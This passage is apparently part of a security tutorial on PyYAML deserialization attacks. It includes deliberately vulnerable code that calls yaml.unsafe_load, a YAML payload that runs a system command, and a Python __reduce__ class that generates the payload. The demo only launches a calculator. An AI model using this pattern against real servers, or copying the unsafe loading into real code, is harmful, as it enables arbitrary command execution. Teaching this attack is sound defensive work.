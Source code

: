 Analyse the serialized object is not difficult, dict and lists are handled nicely, while other object must be seriliazed with their class notation. The above object, for example, would be translated as:

```python
-                 ==== [ 
a :!!python/tuple ==== {a : tuple(
- b - c           ==== b, c
                  ==== )}
                  ==== ]
```

In order to serialize an arbitrary class, the `__reduce__` method must be implemented, in a similar way it was for pickle.

How the exploitation works? Let's consider the following vulnerable code:

```python
import yaml

# Try to create the desert object from YAML file
with open('desert.yml') as desert_file:
    if float(yaml.__version__) <= 5.1: 
        desert = yaml.load(desert_file)
    else:
        desert = yaml.unsafe_load(desert_file)
# Try printing the desert name
print(desert['name'])
```

You may appreciate the version check before the actual call to `load`. This was done on purpose because from PyYAML >= 5.1, the `load` function was patched to avoid "function" deserialization (e.g. `os.system`, `subprocess.call`, `subprocess.check_output`). However, it may still be possible to exploit it using non function based vectors as `subprocess.Popen`, as nicely exposed [here]().
The main concept is the always the same, trick the appliction into loading arbitrary classes/methods. In the case of PyYAML, the following payload can be used to spawn a calculator on the hosting server:

```yaml
!!python/object/apply:nt.system
- cmd /c calc
```

This simple payload can be created easily using the following code:

```python
import yaml, os

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
yaml.dump(Payload())
```

Later we'll see how to create custom payloads dynamically.
